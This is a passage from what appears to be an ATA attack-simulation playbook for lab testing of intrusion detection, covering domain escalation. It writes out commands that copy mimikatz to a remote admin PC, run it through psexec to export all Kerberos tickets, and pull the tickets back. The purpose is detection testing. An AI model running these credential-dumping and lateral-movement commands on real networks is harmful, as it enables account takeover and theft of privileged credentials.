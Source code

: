 ![Unusual protocol](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig24.png) 

### Domain escalation

The attacker now has access to *Admin-PC*, a computer that from earlier reconnaissance was identified as a good attack vector to compromise the high privileged account *NuckC*. The attacker now wants to move into *Admin-PC*, escalating their privileges within the domain.

To do that the attacker will harvest credentials by performing a [Pass-the-Hash](https://www.microsoft.com/security/sir/strategy/default.aspx#!pass_the_hash_defenses) attack will allow us to move to *Admin-PC*.   

From the new command prompt, running in the context of *RonHD*, go to the part of the file system where mimikatz is located from that library, and run the following command:

    xcopy mimikatz \\admin-pc\c$\temp

Next, execute mimiKatz remotely to export all Kerberos tickets from *Admin-PC*, by using the command below:

    psexec.exe \\admin-pc -accepteula cmd /c (cd c:\temp ^& mimikatz.exe “privilege::debug” “sekurlsa::tickets /export” ^& “exit”)

Copy these tickets back to *Victim-PC*, by using the command below:

    xcopy \\admin-pc\c$\temp c:\temp\tickets

An example of the result of this command is shown in the following image:

